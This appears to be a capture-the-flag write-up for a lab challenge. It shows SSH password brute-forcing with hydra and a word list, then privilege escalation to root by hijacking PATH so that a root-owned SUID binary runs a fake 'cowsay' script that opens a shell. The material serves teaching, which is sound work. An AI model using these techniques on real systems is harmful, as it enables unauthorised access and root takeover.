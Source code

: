 # Super secret data - healthcheck

**Note: the IP/hostname and port may be different, in this case the IP is `172.17.0.8` and the port is 2137**

We can try to SSH into the port using the `guest` user - the username is hinted in the challenge description.

```shell
$ ssh guest@172.17.0.8 -p 2137
guest@172.17.0.8's password:
```
The server prompts for a password. It can be guessed (somehow) or bruteforced using a word list like `rockyou.txt`. This can be using using `hydra` among other tools.

```shell
$ hydra -l guest -P rockyou.txt ssh://172.17.0.8:2137
```
*This can take several minutes depending on the hardware.*

Eventually the password is revealed to be `beautiful1`, line number 1150 in `rockyou.txt`.

Now we can log into the server. The user is greeted with a friendly cow.

```
 ___________________
< I am a super cow! >
 -------------------
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
```

This cow turns out not to be the regular `cowsay` command, but instead a file named `supercowsay` in the home directory of the guest user. The file is owned by the `root` user and has SUID set, meaning it will always be run as `root` no matter the user that runs it.

The binary can be dissembled by `objdump`.

```shell
$ objdump -M intel -d supercowsay
```

By inspecting the output we can see that the binary is calling the C standard library `system` function. We can suspect that the function is calling the system `cowsay` binarny, which can be further confirmed by running for example `strings supercowsay | grep cowsay`.

We now know that the binary is executing commands as `root`, so we can change the `$PATH` in order for `cowsay` to point to a different command which would give us privilege escalation.

We can create a script in `/home/guest` named `cowsay`:

```shell
#!/bin/bash

/bin/bash #or any other command we want to run as root
```
Then we edit the `$PATH` to include the directory our script is in.

```shell
export PATH=/home/guest:$PATH
```
*Note: It's important for `/home/guest` to be at the beginning, so the shell checks it before it checks `/usr/bin`, where the real `cowsay` lives.*

After that, we can run the script and voilà, we are `root`. The flag can be quickly found in `/root/flag`.

Hope you had fun solving this challenge!








